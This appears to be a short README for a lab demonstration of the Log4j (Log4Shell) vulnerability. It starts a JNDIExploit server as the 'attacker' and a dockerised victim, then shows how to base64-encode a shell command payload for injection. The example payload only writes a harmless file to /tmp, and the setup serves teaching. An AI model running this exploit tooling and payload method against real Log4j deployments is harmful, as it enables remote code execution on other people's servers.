

ATTACKER:
1. `cd Log4j/Demonstration/attacker_jndi`

2. `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.113 -p 8888`

---

VICTIM:

1. `cd Log4j/Demonstration/victim`

2. `docker-compose up --build`

---
craft a payload that you want to send to the victim, and encode it into base64

1. open cmd
2. type `wsl` if on windows
3. e.g. if your payload is `echo 'This is a malware' > /tmp/malware.txt`, then type `echo “echo ‘This is a malware’ > /tmp/malware.txt” | base64` in the cmd 
4. copy the resulting base64 string: `ZWNobyAnVGhpcyBpcyBhIG1hbHdhcmUnID4gL3RtcC9tYWx3YXJlLnR4dAo=`

